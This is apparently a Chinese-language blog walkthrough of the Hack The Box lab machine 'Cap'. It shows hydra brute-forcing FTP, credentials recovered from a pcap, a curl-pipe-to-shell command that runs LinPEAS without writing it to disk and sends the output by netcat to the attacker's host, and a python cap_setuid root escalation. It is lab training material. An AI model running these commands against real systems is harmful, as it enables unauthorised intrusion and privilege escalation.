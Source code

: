 ```yaml
---
title: HTB cap
date: 2021-07-22 16:17:09
tags:
- linux
categories:
- 渗透
- HTB
---
```



|      IP      |   ROLE   |  OS   |
| :----------: | :------: | :---: |
| 10.10.10.245 |  Victim  | Linux |
| 10.10.14.228 | Attacker | Kali  |


> 如果你是在找writeup而看的这篇文章，那么请再坚持一下。这里给一点提示:
> 1. 仔细观察表面内容，这题并没有需要深挖的内容，别想多
> 2. root的方法题目已经给出来了


## 获取普通权限

通过nmap检查端口，发现有`21 22 80`端口打开，再没有其他端口。

第一反应是ftp的匿名用户或者常用用户。尝试爆破，这里推荐[这个字典](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

```bash
hydra -C password.txt -u -e s 10.10.10.245 ftp
```

ftp这里其实是个幌子，使用常用密码爆破没有作用。

然后打开80网页，通过观察，发现`10.10.10.245/data/3`这个页面是的数字是变动的，更改为`0`后获取pcap文件。

用`Wireshark`打开后过观察报文发现有FTP报文，追踪TCP流的到FTP用户密码

![](1.png)

ssh 登录

```
ssh nathan@10.10.10.245
```

## 提权

提权起手式

- 查看`sudo -l` 
- 利用`LinPEAS`搜索

当查看`sudo -l`的时候，此用户没有任何内容

### 使用 `LinPEAS`

使用不写入硬盘的方式利用`LinPEAS`，这里用到[cmder](https://github.com/Elinpf/cmder)工具提示命令。

下载LinPEAS

![](2.png)

监听端口并发送LinPEAS

![](3.png)

![](4.png)

```bash
python3 -m http.server 5711 &
nc -lvnp 1633 | tee linpeas.out
```

用cmder得到命令后，到目标机上执行

![](5.png)

```bash
curl 10.10.14.228:5711/linpeas.sh | sh | nc 10.10.14.228 1633
```

这样就可以不留痕迹的得到输出文件了

## Capabilities

观察输出文件发现

```log
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
// highlight-next-line
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

了解到`python3.8`拥有`cap_setuid`的能力。 关于Capabilities请查看{% post_link linux-capabilities %}

`cap_setuid`可以设置有效用户，能够提权。

因为是python，所以利用方法为

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

得到root权限

# 后记

本题简单，但是也有知识点，需要对{% post_link linux-capabilities %}有所了解。